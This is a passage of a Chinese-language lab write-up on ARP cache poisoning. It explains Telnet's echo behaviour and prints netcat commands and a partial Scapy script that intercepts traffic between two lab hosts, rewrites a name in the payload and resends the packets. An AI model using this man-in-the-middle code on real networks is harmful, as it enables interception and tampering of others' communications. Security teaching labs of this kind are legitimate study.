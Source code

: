 启动后，无论我们输入什么，telnet上始终显示Z。这也是脚本处的输出也能印证。

![image-20220505225812869](ARPCachePoisoning/image-20220505225812869.png)

> **Telnet的行为**：在Telnet中，通常情况下，我们在Telnet窗口中键入的每个字符都会触发一个单独的TCP数据包，但如果您键入得非常快，一些字符可能会在同一个数据包中一起发送。这就是为什么在从客户端到服务器的典型Telnet数据包中，有效负载只包含一个字符。发送到服务器的字符将被服务器回显，然后客户端将在其窗口中显示该字符。因此，我们在客户端窗口中看到的并不是打字的直接结果；无论我们在客户端窗口中键入什么，在显示之前都要经过一个往返过程。如果网络断开，在网络恢复之前，我们在客户端窗口中键入的内容都不会显示。类似地，如果攻击者在往返过程中将字符更改为Z，则Z将显示在Telnet客户端窗口中，即使您输入的不是Z。

## 任务3：基于ARP缓存中毒对Netcat进行中间人攻击

> 此任务与任务2类似，只是主机A和B使用netcat而不是telnet进行通信。主机M想要拦截它们的通信，因此它可以更改A和B之间发送的数据。您可以使用以下命令在A和B之间建立netcat TCP连接：

```bash
On Host B (server, IP address is 10.9.0.6), run the following:
# nc -lp 9090

On Host A (client), run the following:
# nc 10.9.0.6 9090
```

> 一旦建立了连接，您可以在A上键入消息。每行消息将被放入发送给B的TCP数据包中，B只显示消息。你的任务是用a序列替换消息中出现的每个名字。序列的长度应该与名字的长度相同，否则你会弄乱TCP序列号，从而弄乱整个TCP连接。你需要使用真实的名字，这样我们知道工作是由你完成的。

在任务二的基础上，依旧是要一直运行欺骗脚本，也有可能你压根没中断运行。

接着我们编写中间人攻击脚本。

```python
#!/usr/bin/env python3
from scapy.all import *

# We Only use ip
IP_A = "10.9.0.5"
IP_B = "10.9.0.6"


print("********** MITM attack on Netcat **********")


def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)

        if pkt[TCP].payload:
            data = pkt[TCP].payload.load
            print("Old:"+str(data))
            newdata = data.replace(b'Larry', b'SKPrimin') # replace name
            print("New:"+str(newdata))
            newpkt[IP].len = pkt[IP].len + len(newdata) - len(data)
            send(newpkt/newdata, verbose=False)
        else:
            send(newpkt, verbose=False)
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
```